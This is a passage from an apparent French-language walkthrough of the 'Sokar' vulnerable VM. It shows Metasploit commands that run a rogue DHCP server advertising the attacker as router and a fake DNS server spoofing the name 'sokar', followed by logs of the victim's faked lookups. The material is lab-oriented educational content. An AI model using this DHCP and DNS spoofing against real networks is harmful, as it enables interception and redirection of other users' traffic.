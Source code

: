 ```plain
target     prot opt source               destination         
MASQUERADE  all  --  anywhere             anywhere
```

Maintenant on va utiliser *Metasploit* pour lancer un serveur DHCP paramêtré à notre avantage (car nous déclarant comme le routeur).  

```plain
msf > use auxiliary/server/dhcp
msf auxiliary(dhcp) > set DHCPIPSTART 192.168.1.62
DHCPIPSTART => 192.168.1.62
msf auxiliary(dhcp) > set DHCPIPEND 192.168.1.100
DHCPIPEND => 192.168.1.100
msf auxiliary(dhcp) > set NETMASK 255.255.255.0
NETMASK => 255.255.255.0
msf auxiliary(dhcp) > set ROUTER 192.168.1.3
ROUTER => 192.168.1.3
msf auxiliary(dhcp) > set SRVHOST 192.168.1.3
SRVHOST => 192.168.1.3
msf auxiliary(dhcp) > exploit
[*] Auxiliary module execution completed
msf auxiliary(dhcp) > 
[*] Starting DHCP server...
```

On laisse le serveur DHCP en tache de fond et on lance un faux serveur DNS qui répondra par notre adresse pour le nom *sokar* :  

```plain
msf auxiliary(dhcp) > back
msf > use auxiliary/server/fakedns
msf auxiliary(fakedns) > set TARGETHOST 192.168.1.3
TARGETHOST => 192.168.1.3
msf auxiliary(fakedns) > set TARGETDOMAIN sokar
TARGETDOMAIN => sokar
msf auxiliary(fakedns) > set TARGETACTION FAKE
TARGETACTION => FAKE
msf auxiliary(fakedns) > exploit
[*] Auxiliary module execution completed
msf auxiliary(fakedns) > 
[*] DNS server initializing
[*] DNS server started
```

Voilà, voilà... On reboot la VM et cette fois :  

```plain
[*] 192.168.1.63:55310 - DNS - DNS target domain found: sokar
[*] 192.168.1.63:55310 - DNS - DNS target domain sokar faked
[*] 192.168.1.63:55310 - DNS - XID 14390 (IN::A sokar)
[*] 192.168.1.63:40661 - DNS - DNS target domain found: sokar
[*] 192.168.1.63:40661 - DNS - DNS target domain sokar faked
[*] 192.168.1.63:40661 - DNS - XID 59318 (IN::A sokar)
[*] 192.168.1.63:40661 - DNS - XID 61056 (IN::AAAA sokar, UNKNOWN IN::AAAA)
[*] 192.168.1.63:58504 - DNS - XID 16266 (IN::PTR 3.1.168.192.in-addr.arpa)
[*] 192.168.1.63:54839 - DNS - DNS target domain found: sokar
[*] 192.168.1.63:54839 - DNS - DNS target domain sokar faked
[*] 192.168.1.63:54839 - DNS - XID 28479 (IN::A sokar)
[*] 192.168.1.63:54839 - DNS - XID 45067 (IN::AAAA sokar, UNKNOWN IN::AAAA)
[*] 192.168.1.63:41065 - DNS - XID 55708 (IN::PTR 3.1.168.192.in-addr.arpa)
```
